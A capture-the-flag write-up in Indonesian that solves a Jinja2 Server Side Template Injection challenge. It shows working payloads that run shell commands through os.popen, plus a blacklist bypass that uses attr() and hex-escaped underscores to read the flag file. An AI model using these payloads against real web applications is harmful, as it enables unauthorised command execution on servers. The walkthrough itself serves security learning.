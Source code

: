 
## How to solve

Desc: I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)
I heard templating is a cool and modular way to build web apps! Check out my website here!

Hint 1: Server Side Template Injection

Hint 2: Why is blacklisting characters a bad idea to sanitize input?


1. Sesuai dengan judul serta hint 1, ini adalah soal mengenai Server Side Template Injection

2. Berdasarkan https://portswigger.net/web-security/server-side-template-injection

2. Kita dapat mengecek bahwa itu adalah server side template injection vurnerability kita dapat inputkan "{{7*7}}" kedalam form

3. Jika hasilnya "49" bukan "{{7*7}}", maka dapat dipastikan teradapat SSTI vurnerabiliy

4. Selanjutnya berdasarkan website https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/ kita dapat memasukkan payload dasar

``` bash
    {{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```

dengan asumsi bahwa website menggunakan template engine Jinja2 yang paling umum

5. Jika kita masukkan payloadnya.. maka ![alt text](image.png)

6. Itu dapat terjadi apabila karakter ".", "_", "[]", diblock

7. Berdasarkan website diatas kita dapat mem-bypassed nya dengan mengganti payload menjadi

``` bash
     {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}
```

8. Dapat kita lihat bahwa setelah kita inputkan dengan command 'ls', terlihat flagnya ![alt text](image-1.png)

9. Sekarang kita tinggal ganti 'ls' menjadi 'cat flag' untuk membuka flagnya

``` bash
     {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```

10. ![alt text](image-2.png)
